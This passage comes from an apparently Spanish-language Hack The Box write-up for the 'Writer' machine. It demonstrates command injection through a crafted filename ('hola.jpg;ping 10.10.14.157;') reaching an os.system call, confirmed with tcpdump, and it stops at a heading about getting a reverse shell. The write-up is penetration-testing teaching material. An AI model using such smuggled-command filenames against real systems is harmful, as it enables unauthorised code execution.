 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_commandinjectionPY_res_WRAPPERfile_holaJPG.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

OPAAAAAAAAAAAAaaaslwalkajsfl, toma el nombre el archivo reaaaaaaaAAALaaaAAAAlLll

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361google_gif_boiHYPEboy.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 60%;"/>

Intentemos de alguna forma hacer que lea el archivo, peeeero a la vez generar un **command-injection, ya que ahora SÍ tenemos control sobre el nombre del objeto :)

```py
...
url2image = "file://"
image = "/root/writer/scripts/hola.jpg;ping 10.10.14.157;"
...
```

```bash
❱ touch 'hola.jpg;ping 10.10.14.157;'
```

Ejecutamos para probar si genera la petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_commandinjectionPY_res_WRAPPERfile_holaJPGwithPING_print.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PERRRRRRRFECTO, se hace la peticióóóóóóóónnnn, pues ejecutamos realmente la línea `os.system(...)` a ver si obtenemos el `ping`:

Nos ponemos en escucha por la interfaz donde esta la VPN de HTB capturando todos los paquetes **ICMP** (son las trazas enviadas por el comando `ping`) que le lleguen:

```bash
❱ tcpdump -i tun0 icmp
```

Y en el script:

```py
...
os.system("mv {} {}.jpg".format(local_filename, local_filename))
...
```

Ejecutamos yyyyyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_commandinjectionPY_res_WRAPPERfile_holaJPGwithPING_execute.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOOOOOOOOOOOOOOOOOOOOOOOOOO, las trazas son enviadas y las vemos desde el propio script (al ser local), así que confirmamos el `command-injection` y llego el momento de replicar esto, pero directamente en el blog (: Seré rápido y directo, igual tooooda la explicación se hizo de acá pa arriba.

...

## Explotamos <u>command-injection</u> y generamos Shell [📌](#web-command-injection-revsh) {#web-command-injection-revsh}

Pasos muuuy sencillos:
